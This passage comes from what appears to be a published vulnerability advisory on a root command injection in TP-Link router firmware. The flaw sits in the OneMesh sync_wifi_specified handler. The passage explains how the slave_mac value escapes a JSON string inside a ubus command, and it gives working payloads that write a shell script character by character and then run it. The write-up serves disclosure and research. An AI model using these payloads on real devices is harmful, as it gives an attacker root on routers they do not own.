> Snippet 4: Disassembly of sync_wifi_specified() in luci.controller.admin.onemesh

Our controlled parameter (slave_mac) is assigned to a key "target_id". A command is constructed using printf which is next passed to the fork_call lua function. As it can be seen in lines 187 - 189, json content is injected and the actual command prototype is: `ubus call sync sync_wifi '<json>' &`.

As our controlled parameter is not sanitized before constructing the json we can escape the json context and execute commands within the scope of the lua script process, which runs as root. Effectively a following command will be executed by the lua and run in a shell:

```bash
ubus call sync sync_wifi '{"load":"/tmp/onemesh_sync_wifi_tmp_json","timeout":5,"target_id":"<Controlled_Parameter>"}' &
```

# Exploitation

## Reaching the vulnerable function

To reach a vulnerable function we need to construct and encrypt a packet with specific parameters. As the packet structure is the same as described in the previous advisory we will not discuss it here. Please refer to [last year's advisory for details](https://www.thezdi.com/blog/2020/4/6/exploiting-the-tp-link-archer-c7-at-pwn2own-tokyo).

## Achieving code execution

Similarly to CVE-2020-10882 we are still limited by the 0x11 characters that we can use. strncpy() copies the slave_mac_info key into the slaveMac variable:

`strncpy(slave_mac,*(char **)(iVar6 + 0x10),0x11);`.

strncpy() doesn't null-terminate the destination string by default, so the usable length is supposedly to be 16 characters. However, we are saved by two things: 

1. at the beginning of the function the whole buffer space is memset to 0 (`memset(slave_mac,0,0x424);`); 
2. due to byte alignment, the slave_mac variable is actually at least 0x12 (18) chars. This means that even if we send 17 characters, the string will always be null terminated.

So even if we inject 17 characters, the string will always be null terminated, which is essential for the exploit to succeed. Note that it might be possible to inject more characters at once, but this was the quickest path to success, and we did not focus on efficiency.

Since we have the same limitations to last year's exploit, we need to use a similar approach of printing character by character into a file and execute it as  a shell script in the last step. 
In addition, escaping needs to be done differently: 

```
'`<PAYLOAD\>`'
```

A running exploit looks like this:

```bash
ubus call sync sync_wifi '{"load":"/tmp/onemesh_sync_wifi_tmp_json","timeout":5,"target_id":"'`printf ';'>>b`'"}' &
ubus call sync sync_wifi '{"load":"/tmp/onemesh_sync_wifi_tmp_json","timeout":5,"target_id":"'`printf '.'>>b`'"}' &
ubus call sync sync_wifi '{"load":"/tmp/onemesh_sync_wifi_tmp_json","timeout":5,"target_id":"'`printf '/'>>b`'"}' &
ubus call sync sync_wifi '{"load":"/tmp/onemesh_sync_wifi_tmp_json","timeout":5,"target_id":"'`printf 'q'>>b`'"}' &
ubus call sync sync_wifi '{"load":"/tmp/onemesh_sync_wifi_tmp_json","timeout":5,"target_id":"'`sh b`'"}' &
```
